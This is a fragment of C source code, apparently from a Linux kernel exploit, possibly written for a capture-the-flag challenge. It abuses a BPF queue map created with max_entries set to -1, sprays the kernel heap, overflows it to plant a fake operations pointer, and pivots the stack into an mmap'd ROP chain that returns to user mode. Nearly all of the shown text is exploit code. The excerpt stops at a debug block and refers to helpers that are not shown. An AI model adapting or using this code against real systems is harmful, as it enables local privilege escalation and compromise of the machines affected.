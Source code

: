 ```c


void *fake_ops;
void *evil_rsp;
void set_up_rop()
{
    if((fake_ops =  mmap((void *)0xa000000000,0x1000,PROT_READ|PROT_WRITE,MAP_PRIVATE|MAP_ANONYMOUS,-1,0))==MAP_FAILED){
        perror("fake_ops mmap failed!");
        exit(0);
    }
    //memcpy(fake_ops,flag,0x8);
    *(unsigned long*)(fake_ops) = 0;
    *(unsigned long*)(fake_ops+0x10)= XCHG_EAX_ESP; //栈迁移gadgets,迁移之后rsp = 0x810534d0

    if((evil_rsp = mmap((void *)(EVIL_RSP-0x4d0),0x1000,PROT_READ|PROT_WRITE,MAP_PRIVATE|MAP_ANONYMOUS,-1,0))==MAP_FAILED){
        perror("evil_rsp mmap failed!");
        exit(0);
    }

    
    //kernel heap overflow padding.
    value[0] = 0;
    value[1] = 0;
    value[2] = 0;
    value[3] = 0;
    value[4] = 0;
    value[5] = 0;
    value[6] = fake_ops;

    memcpy((void *)(evil_rsp+0x4d0),rop,sizeof(rop));
}

int main()
{
    save_status();
    rop[8] = user_cs;
    rop[9] = user_rflags;
    rop[10] = user_sp;
    rop[11] = user_ss;

    unsigned int ret = 0;   
    void *p;
    attr->map_type = 0x16;    //BPF_MAP_TYPE_QUEUE 0x16
    attr->max_entries = -1;
    attr->map_flags = 0;
    attr->value_size = 0x40;
    //attr->key = 0;
    ret = syscall(__NR_bpf,BPF_MAP_CREATE,attr,0x30);
    if(ret == -1)
    {
        perror("bpf failed");
        exit(0);
    }   //0x40eda5
    printf("map fd:%d\n",ret);
    
    kernel_heap_spray();      
    set_up_rop();

   

    #ifdef DEBUG
```